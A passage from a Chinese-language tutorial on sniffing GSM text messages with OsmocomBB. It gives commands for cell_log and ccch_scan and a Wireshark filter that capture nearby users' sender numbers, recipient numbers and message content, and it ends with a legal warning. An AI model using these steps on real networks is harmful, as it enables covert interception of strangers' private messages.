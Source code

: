 按下开机键后，终端开始输出信息，当提示`THIS FIRMWARE WAS COMPILED WITHOUT TX SUPPORT!!!`时表明固件刷入完毕。

## 0x09 扫描基站信息

固件刷入完毕后，新建一个终端，进入 osmocom-bb/src/host/layer23/src/misc 目录

``` bash
cd osmocom-bb/src/host/layer23/src/misc
sudo ./cell_log -O
```

终端会输出很多基站信息格式大致如下：
``` bash
<000e> cell_log.c:248 Cell: ARFCN=69 PWR=-83dB MCC=460 MNC=00 (China, China Mobile)
```
执行上述命令后紧接着执行
``` bash
sudo ./ccch_scan -i 127.0.0.1 -a ARFCN
```
其中ARFCN就是我们先前运行`cell_log`时输出的ARFCN标号，比如上述基站信息中`ARFCN=69`，那我们就是
``` bash
sudo ./ccch_scan -i 127.0.0.1 -a 69
```
## 0x0A GSM嗅探

使用`wireshark`来帮我们抓取过滤数据包
``` bash
sudo wireshark -k -i lo -f 'port 4729'
```
命令会启动`wireshark`，之后我们在`filter`处输入`gsm_sms`便可筛选出我们的gsm嗅探数据。

稍等片刻，就能嗅探到该基站的短信啦。我们可以通过wireshark得到短信的`发信人手机号`、`接信者手机号`，`短信内容`

这就是GSM短信嗅探的全部内容，下次我们再来介绍`如何在GSM短信嗅探的基础上给身边的人发送伪造短信`。

有兴趣的小伙伴可以去了解下伪基站，不过私自搭建伪基站并使用是违法的，而GSM短信嗅探的话，其实嗅探范围很局限，而且也仅能针对移动和联通用户有效。

不管怎样，一定不要将技术应用于非法途径！

PS: 参考资料列举有点麻烦，就不列举了，搜索关键字是【GSM 短信嗅探】【GSM Sniffer】【osmocombb】【osmocombb+c118】
